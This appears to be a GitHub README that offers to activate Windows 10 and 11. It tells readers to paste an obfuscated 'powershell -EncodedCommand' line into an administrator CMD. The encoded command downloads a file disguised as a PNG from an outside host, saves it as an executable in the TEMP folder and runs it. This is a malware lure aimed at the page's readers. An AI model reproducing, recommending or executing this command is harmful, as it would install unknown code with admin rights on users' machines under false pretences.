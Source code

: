 ## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.


> [!NOTE]
> powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAG8AbgBsAHkANAAuAGMAbABpAGMAawAvAGEAYwB3AC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFQARQBNAFAAXAAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXAAuAGUAeABlACIA



> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure

